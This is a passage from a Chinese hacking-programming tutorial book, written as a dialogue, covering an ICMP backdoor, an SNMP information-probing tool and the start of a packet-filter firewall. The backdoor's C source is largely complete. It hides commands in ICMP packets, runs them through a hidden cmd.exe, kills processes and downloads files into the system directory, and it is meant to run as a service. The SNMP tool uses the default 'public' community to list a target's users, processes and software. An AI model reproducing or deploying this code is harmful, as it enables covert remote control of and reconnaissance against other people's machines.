        icmp_data = (char*)xmalloc(MAX_PACKET);   // 为发送和接收数据缓冲区分配内存空间
        recvbuf = (char*)xmalloc(MAX_PACKET);
        memset(icmp_data, 0, MAX_PACKET);   // 把发送缓冲区清空，否则里面有些很乱的东西
        fill_icmp_data(icmp_data, datasize);   // 填充 ICMP 数据
        ((IcmpHeader*)icmp_data)->i_cksum = 0;
        ((IcmpHeader*)icmp_data)->i_cksum = checksum((USHORT*)icmp_data, datasize);

        int bwrote = sendto(sockRaw, icmp_data, datasize, 0, (struct sockaddr*)&dest, sizeof(dest));
        if (bwrote == SOCKET_ERROR) {
            if (WSAGetLastError() == WSAETIMEDOUT) printf("Timed out\n");
            fprintf(stderr, "sendto failed: %d\n", WSAGetLastError());
        }

        if (bwrote < datasize) return 0;   // 没有把所有数据发送出去，也出错了。
        printf("\nSend Packet to %s Success!\n", argv[1]);

        DWORD start = GetTickCount();
        for(;;) {   // 循环等待数据返回
            if ((GetTickCount() - start) >= 1000) break;   // 如果发送数据跟接收数据相差达一秒，则退出
            memset(recvbuf, 0, MAX_PACKET);
            int bread = recvfrom(sockRaw, recvbuf, MAX_PACKET, 0, (struct sockaddr*)&from, &fromlen);
            if (bread == SOCKET_ERROR) {
                if (WSAGetLastError() == WSAETIMEDOUT) { printf("timed out\n"); break; }
                fprintf(stderr, "recvfrom failed: %d\n", WSAGetLastError());
                break;
            }

            decode_resp(recvbuf, bread, &from);   // 调用解码函数把结果打印出来
        }
    } // end for
} // end try

__finally { closesocket(sockRaw); WSACleanup(); }
// __finally 中的语句最后一定执行（关闭套接字释放资源）
return 0;
}

// 填充 ICMP 报文的子程序（客户端跟服务端的基本上都是一样，不过要注意的是，密码别搞错了）
void fill_icmp_data(char *icmp_data, int datasize)
{
    IcmpHeader *icmp_hdr;
    char *datapart;

    icmp_hdr = (IcmpHeader *)icmp_data;
    icmp_hdr->i_type = 0;    // 这里把报文的类型设置为 0
    icmp_hdr->i_code = 0;    // 代码为 0
    icmp_hdr->i_id = (USHORT)GetCurrentProcessId();   // 把进程的 id 作为报文的 id
    icmp_hdr->timestamp = GetTickCount();
    icmp_hdr->i_seq = 1234;  // 这个可以作为密码验证

    datapart = icmp_data + sizeof(IcmpHeader);
    memcpy(datapart, SendMsg, strlen(SendMsg));   // 把命令 copy 到 ICMP 报文后面
}

// ICMP 报文解包函数，客户端接收返回的结果直接显示就可以了
void decode_resp(char *buf, int bytes, struct sockaddr_in *from)
{
    memset(arg, 0, sizeof(arg));   // 先把 arg 中的内容清空，待会儿填充
    IpHeader *iphdr;
    IcmpHeader *icmphdr;
    unsigned short iphdrlen;

    iphdr = (IpHeader *)buf;
    iphdrlen = iphdr->h_len * 4;
    icmphdr = (IcmpHeader *)(buf + iphdrlen);

    if (icmphdr->i_seq == 4321) {   // 密码正确则输出数据段
        printf("%d bytes from %s:", bytes, inet_ntoa(from->sin_addr));
        printf(" IcmpType %d", icmphdr->i_type);
        printf(" IcmpCode %d", icmphdr->i_code);
        printf("\n");
        memcpy(arg, buf + iphdrlen + 12, 1450);
        printf("%s", arg);
    }
}

USHORT checksum(USHORT *buffer, int size)   // 计算 ICMP 数据包的校验和
{
    unsigned long cksum = 0;
    while (size > 1) {
        cksum += *buffer++;
        size -= sizeof(USHORT);
    }
    if (size) { cksum += *(UCHAR *)buffer; }

    cksum = (cksum >> 16) + (cksum & 0xffff);
    cksum += (cksum >> 16);
    return (USHORT)(~cksum);
}
```

“服务端需要把命令提取出来并执行。具体的实现如下：”

```c
ICMP_DEST_IP = inet_ntoa(from->sin_addr);    // 取得 ICMP 包的源地址
memcpy(arg, buf + iphdrlen + 12, 256);       // 把命令 copy 到 arg 数组里

if (!memcmp(arg, "pskill", 6))   // 如果是“pskill”命令，则杀进程
{
    kills(atol(strstr(arg, " ")));
    memcpy(buffer, "Process is Killed", sizeof("Process is Killed"));
    send();
}
else if (!strcmp(arg, "pslist\n")) { pslist(); send(); }
else if (!memcmp(arg, "remove", 6))   // 删除服务
{
    RemoveCmdService();
    memcpy(buffer, "Service Removed", sizeof("Service Removed"));
    send();
}

///**********    http 下载    **********
else if (!memcmp(arg, "http://", 7))   // 检查是否有“http://”字符，有则进行 http 下载
{
    if (char *FileName = strstr(arg, "#"))
    {
        char url[200];    // 保存网址的数组
        memset(url, 0, 200);
        memcpy(url, arg, int(FileName - arg - 1));
        char fname[MAX_PATH];
        GetSystemDirectory(fname, MAX_PATH);
        // 得到系统根目录，下载的程序就保存在这里
        FileName++;
    }

    strcat(fname, "\\");
    strcat(fname, FileName);
    *strstr(fname, "\n") = '\0';

    HRESULT hRet = URLDownloadToFile(0, url, fname, 0, 0);
    // url 下载函数，把文件保存到系统根目录

    memset(buffer, 0, sizeof(buffer));
    if (hRet == S_OK) memcpy(buffer, "Download OK!\n", sizeof("Download OK!\n"));
    // 下载成功
    else memcpy(buffer, "Download Failure!\n", sizeof("Download Failure!\n")); // 下载失败

    send();
    return;
}
// URLDownloadToFile() 函数需要包含 urlmon.h 头文件和 Urlmon.lib

/****************************************/
else
{
    SECURITY_ATTRIBUTES sa;
    // 创建匿名管道，用于取得 cmd 的命令输出，否则我们不能知道命令是否成功执行
    HANDLE hRead, hWrite;
    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.lpSecurityDescriptor = NULL;
    sa.bInheritHandle = TRUE;
    if (!CreatePipe(&hRead, &hWrite, &sa, 0))
    {
        printf("Error On CreatePipe()");
        return;
    }

    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    si.cb = sizeof(STARTUPINFO);
    GetStartupInfo(&si);
    si.hStdError = hWrite;
    si.hStdOutput = hWrite;
    si.wShowWindow = SW_HIDE;
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;

    char cmdline[256];
    GetSystemDirectory(cmdline, MAX_PATH + 1);   // 取得系统根目录
    strcat(cmdline, "\\cmd.exe /c ");            // 取得 cmd 的完整路径
    strcat(cmdline, arg);

    if (!CreateProcess(NULL, cmdline, NULL, NULL, TRUE, NULL, NULL, NULL, &si, &pi))
    // 创建 CMD 进程执行命令，并且把结果写向管道中
    {
        printf("Error on CreateProcess()");
        return;
    }

    CloseHandle(hWrite);

    DWORD bytesRead;
    for(;;) {  // 从管道中读取数据，直到没有数据为止
        if (!ReadFile(hRead, buffer, 2048, &bytesRead, NULL)) break;
        Sleep(200);
        // 发送输出数据
        send();
    }
}
```

```c
// send() 函数把 buffer[] 数组中的数据发送出去
void send(void)
{
    WSADATA wsaData;
    SOCKET sockRaw = (SOCKET)NULL;
    struct sockaddr_in dest;
    int bread, datasize, retval, bwrote;
    int timeout = 1000;
    char *icmp_data;

    if ((retval = WSAStartup(MAKEWORD(2,1), &wsaData)) != 0) ExitProcess(STATUS_FAILED);
    if ((sockRaw = WSASocket(AF_INET, SOCK_RAW, IPPROTO_ICMP, NULL, 0, WSA_FLAG_OVERLAPPED))
        == INVALID_SOCKET) ExitProcess(STATUS_FAILED);

    __try
    {
        if ((bread = setsockopt(sockRaw, SOL_SOCKET, SO_SNDTIMEO, (char*)&timeout, sizeof(timeout)))
            == SOCKET_ERROR) __leave;
        // 设置发送超时

        memset(&dest, 0, sizeof(dest));
        dest.sin_family = AF_INET;
        dest.sin_addr.s_addr = inet_addr(ICMP_DEST_IP);

        datasize = strlen(buffer);
        datasize += sizeof(IcmpHeader);
        icmp_data = (char*)xmalloc(MAX_PACKET);

        if (!icmp_data) __leave;
        memset(icmp_data, 0, MAX_PACKET);

        fill_icmp_data(icmp_data);      // 填充 ICMP 报文
        ((IcmpHeader*)icmp_data)->i_cksum = checksum((USHORT*)icmp_data, datasize);
        // 计算校验和

        bwrote = sendto(sockRaw, icmp_data, datasize, 0, (struct sockaddr*)&dest, sizeof(dest));
        // 发送报文

        if (bwrote == SOCKET_ERROR)
        {
            // if (WSAGetLastError() == WSAETIMEDOUT) printf("Timed out\n");
            // printf("sendto failed: %d\n", WSAGetLastError());
        }

        __leave;
    }
    __finally
    {
        if (sockRaw != INVALID_SOCKET) closesocket(sockRaw);
        WSACleanup();
    }

    memset(buffer, 0, sizeof(buffer));
    Sleep(200);
}
```

“服务端的 pslist() 和 pskill() 函数之前已经给大家介绍过了，在这里就不重复了。另外，我们要把这个后门做成服务形式的启动，大家可参考之前介绍的如何编写 NT 服务的代码，只要把这个后门的代码整合在那个服务框架里，那么，一个 ICMP 后门就诞生了！”

“太好了，这个后门很厉害哦！”蓝狐高兴地说道。

“其实，大家平时多动动脑筋想想问题，往往会有创造性的发现！好了，我们这个 ICMP 后门就介绍到这里，希望大家喜欢！”

## 3.6 编写 snmp 信息刺探工具

- 前置知识：Winsock
- 难度：中
- 编译环境：VC6.0 + Win2000


#### 3.6.1 前置知识

##### 1. SNMP 网络管理的历史

美国国防部设计了世界上头几个包交换网之一的 ARPANET。在 70 年代，TCP/IP 协议族正式被定为军方通信标准。随着此协议的广泛使用，网络管理成了一件大事。在 80 年代末和 90 年代初，网络迅速发展，许多子网数目的增多，使监视网络活动成为一种必须。

在网络管理初期，对网络的管理停留在使用 ICMP 和 PING 的基础上，但随着网络内主机数据的不断增多，这种简单的工具已经不可能完成网络管理的工作了。

随着网络数目与网络内主机数目的日益增多，单纯依靠一些网络专业人员进行网络管理已经不可能了，必须有种通行的网络管理标准以及相应的管理工具，使普通人也能管理网络。第一个相关的协议是 SGMP，它提供了一种直接监视网关的方法，也因此成了一种通用的网络管理工具。

现在，有三种可供选择的管理工具：HEMS、SNMP 和建立在 TCP/IP 基础上的 CMIP（CMOT）。因为需要使用 ISO/OSI 模型进行网络管理，SNMP 首选 CMOT 作为管理工具。基本的 SNMP 已经被广泛……

## 第三章 黑客编程实例

使用了 SNMP，所有的网络产品都提供对 SNMP 的支持。新开发的具有远程管理能力的 SNMP 是 RMON，它使管理员可以对整个子网进行管理，而不是对子网内的单个设备进行管理。

##### 2. 一些定义

###### SNMP（Simple Network Management Protocol）：简单网络管理协议

简单网络管理协议（SNMP）是一种应用层协议，便于在网络设备间交换管理信息。它是 TCP/IP 协议簇的一部分，网络管理员使用 SNMP 管理网络性能，发现和解决网络故障，并计划网络增长。它是一个标准的、用于管理 IP 网络上结点的协议。此协议包括了监视和控制变量集，以及用于监视设备的两个数据格式：SMI 和 MIB。

###### MIB（Management Information Base）：管理信息库

由网络管理协议访问的管理对象数据库。它包括 SNMP 用来设置的变量，例如可以通过网络设备的 SNMP 管理代理访问。

###### SMI（Structure of Management Information）：管理信息结构

用于定义通过网络管理协议可访问对象的规则。SMI 定义在 MIB 中使用的数据类型，以及网络资源在 MIB 中的名称或表示。

###### ASN.1（Abstract Syntax Notation One）：抽象语法定义

用于定义语法的正式语言，在 SNMP 中它用于定义 SNMP 协议数据单元和对象的格式。

###### PDU（Protocol Data Unit）：协议数据单元

在网络中传送的数据包。

###### BER（Basic Encoding Rules）：基本编码规则

由 CCITT（X.209）和 ISO（ISO 8825）指定的编码规则，它描述了如何将 ASN.1 类型表示为字符串。

##### 3. SNMP 介绍

SNMP 是一种简单的请求/应答协议。网络管理系统发出一个请求，被管理设备返回一个应答。这种行为使用四种协议操作中的一种实现：Get、GetNext、Set 和 Trap。Get 操作被网络管理系统用于取得代理中一个或多个对象实例的值；GetNext 操作被网络管理系统用于取得代理中表格或链表中下一个对象实例的值；Set 操作被网络管理系统用于在代理中设置一个对象实例的值；Trap 操作被代理用于异步（asynchronously）通知网络管理系统一个有意义的事件。

使用 SNMP 进行网络管理需要下面几个重要部分：管理基站、管理代理、管理信息库和网络管理工具。管理基站通常是一个独立的设备，它用作网络管理者进行网络管理的用户接口。基站上必须装备有管理软件、管理员可以使用的用户接口、从 MIB 取得信息的数据库，同时为了进行网络管理，它应该具备将管理命令发出的能力。

管理代理是一种网络设备，如主机、网桥、路由器和集线器等，这些设备都必须能接收管理基站发来的信息，它们的状态也必须可以由管理基站监视。管理代理响应基站的请求进行相应的操作，也可在没有请求的情况下向基站发送信息。

MIB 是对象的集合，它代表网络中可以管理的资源和设备。每个对象基本上是一个数据变量，它代表被管理对象某一方面的信息。

最后一个方面是管理协议，也就是 SNMP。SNMP 的基本功能是：取得、设置和接收代理发送的意外信息。取得指的是基站发送请求，代理根据这个请求回送相应的数据；设置是基站设置管理对象（也就是代理）的值；接收代理发送的意外信息是指代理可以在基站未请求的状态下，向基站报告发生的意外情况。

##### 4. MIB 和对象

MIB 包括了对象列表，这些对象与指示对象类型的 OBJECT IDENTIFIER 相关。MIB 的结构是树形结构，有两种方式可以访问 MIB 中对象的值：一种是快速访问，另一种是慢速访问。快速访问时只用输入一些数据，慢速访问时要加上其他信息。

SNMP MIB 对象的定义是十分严格的，定义指定了对象的数据类型、允许的形式、取值范围、与其他 MIB 对象的关系。ASN.1 定义方法用来定义每个对象，同时也定义整个 MIB 结构。有两种不同对象数据结构：通用类型和专用类型。通用类型指的是整数、字符串、空值、对象标识、序列和序列号；专用类型是指网络地址、IP 地址、计数器、标准等。

SNMP 是一种易于实现的、基本的网络管理工具，它能够满足短期的管理要求。因为基于 OSI 的管理协议现在进展缓慢，所以它起到了一个重要的补充作用。SNMP 协议提供了一个协议标准，这个标准用于定义网络信息框架和用于交换信息。SNMP 模型引入了管理器和代理的概念，管理器指的是以人类管理员身份负责所有网络（或部分网络）的软件。代理指的是被管理设备中的软件，它用以完成管理器需要进行的局部管理和应急通知管理器功能。

#### 3.6.2 SNMP 的工作原理

SNMP 提供从运行网络管理软件的中央计算机对网络主机进行管理（例如，工作站或服务器计算机、路由器、桥和集线器）的方法。SNMP 通过分布式管理系统和代理体系结构完成管理服务。由于网络管理对审核和资源管理都非常关键，因此 SNMP 可以用于：

- 配置远程服务——配置信息可从管理系统发送到所有联网的主机。
- 监视网络性能——用户可跟踪处理速度和网络吞吐量，并且收集与数据传送是否成功有关的信息。
- 检测网络错误或非法访问——网络设备可配置为在发生某些事件时触发警报。在触发警报时，设备将事件消息转发给管理系统。常见类型的警报包括关闭和重新启动设备、在路由器上检测到链路故障，以及非法访问。
- 审核网络使用情况——用户可监视网络的总体使用情况，目的是识别用户或组进行的访问，以及网络设备和设备的使用类型。然后可以用该信息生成账单，或者调整当前网络费用和预计开支。

简单网络管理协议（SNMP）服务支持运行 TCP/IP 和 IPX 协议的计算机。在成功配置了 TCP/IP 协议后，可以选择是否安装它。SNMP 服务提供的 SNMP 代理可以远程、集中管理运行下列系统的计算机：


“如果一台服务器提供 SNMP 服务，那么假若配置不当，就很容易泄漏服务器的重要信息。以 Win2K 来说，一旦安装并启动了 SNMP 管理协议，系统将打开以下两个端口：”

- UDP 161 snmp
- UDP 162 snmptrap

“另外，Win2K 系统支持初始的‘查询密码’ community strings 为：public。利用这个默认的查询密码，我们可得到以下相关信息：”

- 系统进程
- 系统用户
- 系统信息
- 已安装的软件

“通过其他的 oid（即对象识别代码：Object Identifier，可以把 oid 理解成 MIB 管理信息库中各种信息分类存放树资源的一个数字标识），可以获取更多的目标服务器的信息。例如获取当前服务器进程的 oid 为：.1.3.6.1.2.1.25.4.2.1.2。”

“下面我们来看看通过 VC6.0 如何编写这样一个信息刺探工具。以下是两个较重要的函数：”

##### 1. SnmpMgrOpen()

SnmpMgrOpen() 函数初始化一个 socket 连接和数据结构，以便连接远端 SNMP 服务。

```c
LPSNMP_MGR_SESSION SnmpMgrOpen(
    LPSTR lpAgentAddress,    // 远端 IP 地址
    LPSTR lpAgentCommunity,  // 查询密码
    INT nTimeOut,            // 连接超时
    INT nRetries             // 重试次数
);
```

##### 2. SnmpMgrRequest()

SnmpMgrRequest() 函数发出查询请求。

```c
SNMPAPI SnmpMgrRequest(
    LPSNMP_MGR_SESSION session, // SnmpMgrOpen() 获得的 session
    BYTE requestType,
    SnmpVarBindList* variableBindings,
    AsnInteger* errorStatus,
    AsnInteger* errorIndex
);
```

#### 3.6.3 SNMP 信息刺探工具源码

```c
/* ------------------------------
   SNMP 信息刺探程序
   ------------------------------ */

#include <stdio.h>
#include <malloc.h>
#include <snmp.h>
#include <mgmtapi.h>
#pragma comment(lib,"Mgmtapi.lib")
#pragma comment(lib,"Snmpapi.lib")

// 利用 SNMP API 时需要以上头文件和库文件
#define GET      1    // get, 获取一个信息。
#define GETNEXT  2    // getnext, 获取下一个信息。
#define WALK     3    // walk, 获取一堆信息，即所有数据库子树/子目录的信息

#define TIMEOUT 6000 /* milliseconds */
#define RETRIES 3

// 一些有用的 oid
char *SnmpOid[5]={
    ".1.3.6.1.2.1.25.4.2.1.2",    // 进程列表
    ".1.3.6.1.4.1.77.1.2.25.1.1", // 系统用户
    ".1.3.6.1.4.1.77.1.4.1.0",    // 域名
    ".1.3.6.1.2.1.25.6.3.1.2",    // 列出安装的软件
    ".1.3.6.1.2.1.1"              // 列出系统信息
};

void usage(char *name) // 帮助信息
{
    printf("================SNMP tool================");
    printf("========gxisone@hotmail.com    2004/8/10====");
    printf("\nusage: %s [remoteip] [sysprocess|sysuser|domainname|sysinf|software]\n", name);
    printf("Example: %s 192.168.1.1 sysuser\n", name);
}

int main(int argc,char *argv[]) // 主函数开始
{
    int    operation;   // 贮存 get/getnext/walk 的变量
    LPSTR  agent;       // 远端 SNMP 服务器 IP
    LPSTR  community;   // 查询密码
    RFC1157VarBindList variableBindings;
    LPSNMP_MGR_SESSION session;

    int timeout = TIMEOUT;   // 连接超时
    int retries = RETRIES;   // 重试次数，因为 UDP 协议不稳定，有可能要多次查询
    int i;
    BYTE requestType;
    AsnInteger errorStatus;
    AsnInteger errorIndex;
    char *chkPtr = NULL;
    operation = WALK;   // 这个程序使用 WALK 来获取信息

    if (argc != 3)
    {
        usage(argv[0]);
        return 0;
    }
    else
    {
        AsnObjectIdentifier reqObject;

        // 取得 IP 地址
        agent = (LPSTR)SNMP_malloc(strlen(*argv) + 1);
        strcpy(agent, argv[1]);
        community = "public";   // 设置查询密码

        variableBindings.list = NULL;
        variableBindings.len = 0;

        // 设置 oid
        if (!strcmp(argv[2], "sysprocess")) i = 0;
        else if (!strcmp(argv[2], "sysuser")) i = 1;
        else if (!strcmp(argv[2], "domainname")) i = 2;
        else if (!strcmp(argv[2], "software")) i = 3;
        else if (!strcmp(argv[2], "sysinf")) i = 4;
        else {
            usage(argv[0]);
            return 0;
        }

        printf("%s\n", SnmpOid[i]);

        // 把字符串转换成标准 oid
        if (!SnmpMgrStrToOid(SnmpOid[i], &reqObject))
        {
            printf("Error: Invalid oid, %s, specified.\n", *argv);
            return 1;
        }
        else
        {
            variableBindings.len++;
            if ((variableBindings.list = (RFC1157VarBind *)SNMP_realloc(
                    variableBindings.list, sizeof(RFC1157VarBind) *
                    variableBindings.len)) == NULL)
            {
                printf("Error: Error allocating oid, %s.\n", *argv);
                return 1;
            }
            variableBindings.list[variableBindings.len - 1].name = reqObject;
            variableBindings.list[variableBindings.len - 1].value.asnType = ASN_NULL;
        }

        // Make sure only one variable binding was specified if operation is WALK
        if (operation == WALK && variableBindings.len != 1)
        {
            printf("Error: Multiple oids specified for WALK.\n");
            return 1;
        }

        // 打开 SNMP session，并连接到远端 SNMP 服务器
        if ((session = SnmpMgrOpen(agent, community, timeout, retries)) == NULL)
        {
            printf("error on SnmpMgrOpen %d\n", GetLastError());
            return 1;
        }

        {
            AsnObjectIdentifier root;
            AsnObjectIdentifier tempOid;
            SnmpUtilOidCpy(&root, &variableBindings.list[0].name);
            requestType = ASN_RFC1157_GETNEXTREQUEST;
            for (;;)  // 循环获取 MIB 数据，并打印
            {
                if (!SnmpMgrRequest(session, requestType, &variableBindings,
                                    &errorStatus, &errorIndex))
                {
                    printf("error on SnmpMgrRequest %d\n", GetLastError());
                    break;
                }
                else
                {
                    if (errorStatus == SNMP_ERRORSTATUS_NOSUCHNAME ||
                        SnmpUtilOidNCmp(&variableBindings.list[0].name, &root, root.idLength))
                    {
                        printf("End of MIB subtree.\n\n");
                        break;
                    }

                    if (errorStatus > 0)
                    {
                        printf("Error: errorStatus=%d, errorIndex=%d \n", errorStatus, errorIndex);
                        break;
                    }
                    else
                    {
                        // 打印查询的结果
                        char *string = NULL;
                        SnmpMgrOidToStr(&variableBindings.list[0].name, &string);
                        printf("Variable = %s\n", string);
                        if (string) SNMP_free(string);
                        printf("Value    = ");
                        SnmpUtilPrintAsnAny(&variableBindings.list[0].value);
                        printf("\n");
                    }
                }

                // 准备下一次查询
                SnmpUtilOidCpy(&tempOid, &variableBindings.list[0].name);
                SnmpUtilVarBindFree(&variableBindings.list[0]);
                SnmpUtilOidCpy(&variableBindings.list[0].name, &tempOid);
                variableBindings.list[0].value.asnType = ASN_NULL;
                SnmpUtilOidFree(&tempOid);
            } // end while()

            // 释放资源
            SnmpUtilVarBindListFree(&variableBindings);
            SnmpUtilOidFree(&root);
        }

        // 关闭 SNMP session
        if (!SnmpMgrClose(session)) // 清理退出
        {
            printf("error on SnmpMgrClose %d\n", GetLastError());
            return 1;
        }
    }

    return 0;
}
```

> “OK！以后发现关闭了 TCP 139、445 端口的 Win2000 系统时，就利用上面介绍的这个工具来刺探服务器信息（前提是远端服务器安装了 SNMP 服务）。我用上面的程序成功地从一台配置较安全的服务器上得到了图 3-7、图 3-8 的信息。相信这是对安全配置较高的服务器进行信息刺探的一线希望。”





图 3-7 远端服务器的当前进程

图 3-8 远端服务器安装的软件

“好了，这个基于 SNMP 的信息刺探工具就介绍到此。网上关于 SNMP 编程的资料比较缺乏，如果你有不明白的函数，可查阅微软的 MSDN 网站，里面有大量关于 SNMP 的详细资料（你的 E 文水平要好哦）。”

### 3.7 一个简单包过滤防火墙的实现

- 前置知识：会查 MSDN
- 难度：中
- 编译环境：VC .NET + Win2003

“不知大家对编写防火墙有没有兴趣？”

“编写防火墙啊？听别人说很难啊！好像要用到什么驱动程序才能写出一个防火墙程序。”多多喵说道。

“呵呵！其实，我们利用几个系统的 API 就可以写个简单的防火墙。我最近在微软的 MSDN 上查找资料，无意中发现了几个可实现过滤数据包的 API 函数。细心研究了一下，发现的确可以实现数据包的拦截，下面我就简单介绍一下这些 API 函数，并给出实例，讲解如何利用这些 API 来实现一个简单的包过滤防火墙。”

“不是吧？几个 API 函数就可以写个防火墙程序？”我是良民有点怀疑。

“是啊！在 Windows 下开发防火墙的方法不是唯一的，其中，用包过滤 API 实现的防火墙最简单，只需调用系统的几个 API 函数就可以实现包过滤；但那样将会失去更多的灵活性，因为你不能随意更改包内容。”

“而且这些 Packet Filtering API 只在 Win2000 以上的系统中才有，即用系统的 API 来实现的防火墙只能在 Win2000/XP/2003 中使用。另外，还有 WinSock 层防火墙（基于 SPI 的数据报过滤原理，是在用户级别的）、IMD 防火墙（数据报过滤是属于内核级的，它建立在网络驱动上面）、NDIS 防火墙等。一个比一个难实现，但一个比一个功能强大。我的能力有限，只对包过滤 API 作点简单介绍。呵呵，也方便大家来实践一下嘛！”

“那么，我们需要哪些 API 函数？那些函数复杂么？”马蜂窝问道。

“不复杂，你看看就知道了。下面先来看看将要用到的 API 函数。”

- **1. PfCreateInterface()**

“这个函数用来建立一个过滤接口。此函数的原型如下：”

```c
DWORD PfCreateInterface(
    DWORD,                 // dwName
    PFFORWARD_ACTION,      // 数据包进入时的动作
                           // PF_ACTION_FORWARD 时放行数据包
                           // PF_ACTION_DROP 时就丢弃数据包
    PFFORWARD_ACTION,      // 数据包发出时的动作，参数同上
    BOOL,                  // bUseLog
    BOOL,                  // bMustBeUnique
    INTERFACE_HANDLE*      // ppInterface
);
```

#### PfBindInterfaceToIPAddress()

“这个函数绑定本机的 IP 地址。原型如下：”

```c
DWORD PfBindInterfaceToIPAddress(
    INTERFACE_HANDLE,    // pInterface
    PFADDRESSTYPE,       // pfatType
    PBYTE                // IP 地址
);
```

“PfAddFiltersToInterface() 函数用来加入一个过滤接口，程序运行到这里就可实现数据包的过滤了。其原型如下：”

```c
DWORD PfAddFiltersToInterface(
    INTERFACE_HANDLE hIn,          // filter 接口的句柄
    DWORD cInFilters,              // 过滤规则，这个规则用来过滤进来的数据包
    PPF_FILTER_DESCRIPTOR pfiltIn,
    DWORD cOutFilters,
    PPF_FILTER_DESCRIPTOR pfiltOut,
    PFILTER_HANDLE pfHandle
);
```

“下面三个函数用来删除 packet filter。过滤器删除后，数据包就可继续进出。”

```c
PfRemoveFilterHandles();
PfUnBindInterface();
PfDeleteInterface();
```

“在 PfAddFiltersToInterface() 中用到一个 PPF_FILTER_DESCRIPTOR 结构，这个结构储存着过滤规则，在 VC7 的 fltdefs.h 中，PPF_FILTER_DESCRIPTOR 的定义如下：”

```c
typedef struct _PF_FILTER_DESCRIPTOR
{
    DWORD          dwFilterFlags;
    DWORD          dwRule;
    PFADDRESSTYPE  pfatType;   // 使用 ipv4 或 ipv6
    PBYTE          SrcAddr;    // 本机 IP 地址
    PBYTE          SrcMask;    // 本机的子网掩码
    PBYTE          DstAddr;    // 远端 IP 地址
    PBYTE          DstMask;    // 远端子网掩码
    DWORD          dwProtocol; // 要过滤的协议
    DWORD          fLateBound;
    WORD           wSrcPort;   // 源端口
    WORD           wDstPort;   // 目的端口
    WORD           wSrcPortHighRange;
    WORD           wDstPortHighRange;
} PF_FILTER_DESCRIPTOR, *PPF_FILTER_DESCRIPTOR;
```

“OK！有了以上知识，现在我们就来做个简单的防火墙。使用的环境是 Windows 2003 + VC7.0。”

“能在 VC6.0 中编译么？”冰眼问道。

“不行，我在 VC6.0 中找不到 fltdefs.h。你想想吧，既然 MSDN 上注明在 Win2000 以上的系统中才有 API，在 VC6.0（98 年出世的）中又怎么会有？”

“好了，废话少说。首先，我们要得到自己的 IP 地址，如果有的机器上有双网卡，就必须指定哪一个 IP 地址的数据要被过滤。因为本程序只是简单测试，所以只是指定 IP 地址为 127.0.0.1，语句如下：”

```c
BYTE localIp[] = {127,0,0,1};
// 绑定需要网络包过滤的 IP 地址，这个很重要，一定要是你联网时本机的 IP，否则不能过滤数据。
// 大家测试时要根据实际情况来修改源代码里面的 IP，如果只拿本机作测试，就用 127.0.0.1
// （有网卡的就用网卡的 IP 地址），这里的格式也要注意，数组的结构是 {127,0,0,1}
// （里面是逗号而不是句号）。
```

“注意哦！如果要在互联网上测试，要根据实际情况来修改这个 IP 地址。其实，我们可以用代码来实现的，之前我已经介绍了如何获取本机 IP 地址，大家可以自己把代码加进去。”

“然后我们创建一个网络包过滤接口：”

```c
INTERFACE_HANDLE hInterface;   // 定义接口的句柄
PfCreateInterface(0,
    PF_ACTION_DROP,      // 丢弃所有进入本机的数据包
